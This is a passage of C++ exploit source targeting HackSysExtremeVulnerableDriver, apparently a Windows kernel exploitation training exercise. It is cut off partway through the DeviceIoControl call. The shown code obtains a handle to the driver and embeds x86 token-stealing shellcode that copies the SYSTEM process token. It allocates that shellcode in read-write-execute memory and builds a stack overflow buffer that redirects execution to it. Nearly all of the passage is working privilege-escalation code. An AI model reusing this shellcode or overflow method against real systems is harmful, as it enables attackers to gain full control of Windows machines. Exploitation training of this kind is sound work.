 ```cpp
        NULL,
        OPEN_EXISTING,
        FILE_FLAG_OVERLAPPED | FILE_ATTRIBUTE_NORMAL,
        NULL);

    if (hFile == INVALID_HANDLE_VALUE) {
        cout << "[!] No handle to HackSysExtremeVulnerableDriver.\n";
        exit(1);
    }

    cout << "[>] Handle to HackSysExtremeVulnerableDriver: " << hex << hFile
        << "\n";

    return hFile;
}

void send_payload(HANDLE hFile) {

    char shellcode[] = (
        "\x60"
        "\x64\xA1\x24\x01\x00\x00"
        "\x8B\x40\x50"
        "\x89\xC1"
        "\x8B\x98\xF8\x00\x00\x00"
        "\xBA\x04\x00\x00\x00"
        "\x8B\x80\xB8\x00\x00\x00"
        "\x2D\xB8\x00\x00\x00"
        "\x39\x90\xB4\x00\x00\x00"
        "\x75\xED"
        "\x8B\x90\xF8\x00\x00\x00"
        "\x89\x91\xF8\x00\x00\x00"
        "\x61"
        "\x5d"
        "\xc2\x08\x00"
        );

    LPVOID shellcode_address = VirtualAlloc(NULL,
        sizeof(shellcode),
        MEM_RESERVE | MEM_COMMIT,
        PAGE_EXECUTE_READWRITE);

    memcpy(shellcode_address, shellcode, sizeof(shellcode));

    cout << "[>] RWX shellcode allocated at: " << hex << shellcode_address
        << "\n";

    BYTE input_buff[0x830] = { 0 };

    // 'A' * 0x828
    memset(input_buff, '\x41', 0x828);

    memcpy(input_buff + 0x828, &shellcode_address, 0x4);

    BYTE terminator[] = "\xb0\xb0\xd0\xba";

    memcpy(input_buff + 0x82c, &terminator, 0x4);

    cout << "[>] Sending buffer of size: " << sizeof(input_buff) << "\n";

    DWORD bytes_ret = 0x0;

    int result = DeviceIoControl(hFile,
        IOCTL,
```